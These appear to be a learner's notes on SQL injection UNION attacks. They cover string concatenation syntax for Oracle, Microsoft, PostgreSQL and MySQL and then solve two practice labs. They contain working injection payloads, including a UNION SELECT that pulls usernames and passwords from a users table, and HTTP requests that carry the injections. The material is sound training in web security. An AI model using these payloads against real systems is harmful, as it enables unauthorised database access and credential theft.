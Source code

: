 ## String concatenation

If the query returns only 1 column, you can retrieve multiple values together withing a single column by concatenating the values together.

Different databases use different techniques for string concatenation:

| Database   | Technique                                                                     |
| ---------- | ----------------------------------------------------------------------------- |
| Oracle     | 'foo'\|\|'bar'                                                                |
| Microsoft  | 'foo'+'bar'                                                                   |
| PostgreSQL | 'foo'\|\|'bar'                                                                |
| MySQL      | 'foo' 'bar' [Note the space between the two strings]                          |
|            | CONCAT('foo','bar')                                                           |

If you need to concatenate table columns (e.g. `table.foo` and `table.bar`), then you'll have to drop the apostrofe character, like this (in the case of a PostgreSQL database): foo||bar.

If you want to add a separator between the two strings, you can copy this syntax:

```txt
' UNION SELECT username || '~' || password FROM users-- 
```

Pay attention to the number of double vertical bars (`|`). For example, if you use two separators (column1,separator,column2,separator,column3), there are going to be `8` vertical bars.

## Labs

### Lab 1

> SQL injection UNION attack, determining the number of columns returned by the query

Using the first method (`ORDER BY`), I found out that the number of columns is 3.

To finish the lab I needed to use the second method (`UNION SELECT NULL...`). In particular, I send the following HTTP request:

```http
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL-- HTTP/1.1
# output omitted for brevity
```

### Lab 2

> SQL injection UNION attack, finding a column containing text

I had to find which columns accepted a string (spoiler: the second column), and then return the value `InZuic` in one column.

To do this, I used the following HTTP request:

```http
GET /filter?category=Accessories'+UNION+SELECT+NULL,'InZuic',NULL-- HTTP/1.1
```
